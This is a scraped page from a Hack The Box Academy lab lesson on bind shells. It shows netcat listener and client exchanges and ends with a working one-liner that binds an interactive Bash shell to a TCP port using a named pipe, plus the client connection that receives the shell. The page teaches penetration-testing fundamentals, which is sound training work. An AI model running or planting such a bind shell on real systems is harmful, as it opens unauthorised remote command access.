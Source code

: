 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/115/section/1105
// Platform Version: V1
// Module ID: 115
// Module Name: Shells & Payloads
// Module Difficulty: Medium
// Section ID: 1105
// Section Title: Bind Shells
// Page Title: Shells & Payloads
// Page Number: 04
-->

# Bind Shells

**Module Name:** Shells & Payloads **Page Number:** 04

#### SHELLS & PAYLOADS

# Bind Shells

## What Is It?

#### Bind Example

![https://academy.hackthebox.com/storage/modules/115/bindshell.png](https://academy.hackthebox.com/storage/modules/115/bindshell.png)

## Practicing with GNU Netcat

#### No. 1: Server - Target starting Netcat listener

``` shell-session
Target@server:~$ nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
```

#### No. 2: Client - Attack box connecting to target

``` shell-session
[!bash!]$ nc -nv 10.129.41.200 7777

Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
```

#### No. 3: Server - Target receiving connection from client

``` shell-session
Target@server:~$ nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51872 received!
```

#### No. 4: Client - Attack box sending message Hello Academy

``` shell-session
[!bash!]$ nc -nv 10.129.41.200 7777

Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
Hello Academy
```

#### No. 5: Server - Target receiving Hello Academy message

``` shell-session
Victim@server:~$ nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51914 received!
Hello Academy
```

## Establishing a Basic Bind Shell with Netcat

#### No. 1: Server - Binding a Bash shell to the TCP session

``` shell-session
Target@server:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

#### No. 2: Client - Connecting to bind shell on target

``` shell-session
[!bash!]$ nc -nv 10.129.41.200 7777

Target@server:~$
```

# 

# 

#### Questions

####